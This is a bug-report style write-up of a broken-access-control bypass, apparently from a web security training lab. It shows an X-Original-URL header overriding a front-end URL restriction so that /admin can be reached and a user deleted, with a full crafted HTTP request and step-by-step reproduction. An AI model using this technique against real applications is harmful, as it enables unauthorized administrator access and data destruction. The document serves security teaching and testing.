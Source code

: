 ## Broken access control can lead to admin account takeover

#### Description
Some applications enforce access controls at the platform layer by restricting access to specific URLs and HTTP methods based on the user's role. For example an application might configure rules like the following:

DENY: POST,` /admin/deleteUser`, managers

This rule denies access to the POST method on the URL `/admin/deleteUser`, for users in the managers group. Various things can go wrong in this situation, leading to access control bypasses.

Some application frameworks support various non-standard HTTP headers that can be used to override the URL in the original request, such as `X-Original-URL` and `X-Rewrite-URL`. If a web site uses rigorous front-end controls to restrict access based on URL, but the application allows the URL to be overridden via a request header, then it might be possible to bypass the access controls using a request like the following:
```
POST / HTTP/1.1
X-Original-URL: /admin/deleteUser
You can see a full HTTP request can sent by an attcaker in-order to exploit the vulnurbility
```
```
GET /delete?username=carlos HTTP/1.1
Host: ac881fc61f2d6d3f80166598000a0060.web-security-academy.net
X-Original-URL: /admin
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac881fc61f2d6d3f80166598000a0060.web-security-academy.net/
Connection: close
Cookie: session=PZEti039Ndjxfya2anDNigFiMWv78pdZ
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

#### Steps to reproduce

1. Try to load `/admin` and observe that you get blocked. 
2. Observe that the response is very plain, suggesting it may originate from a front-end system. 
3. Send the request to Burp Repeater. Change the URL in the request line to `/` and add the HTTP header `X-Original-URL: /invalid`.        Observe that theapplication returns a "not found" response. This indicates that the back-end system is processing the URL from the `X  Original-URL` header. 
4. Change the value of the `X-Original-URL` header to `/admin`. Observe that you can now access the admin page. 
5. To delete the user carlos, add `?username=carlos` to the real query string, and change the `X-Original-URL` path to `/admin/delete`.

#### Proof of concept

Video link https://vimeo.com/000000000

#### Impact 

**An attacker can bypass the authorization and abuse administrator functionality**
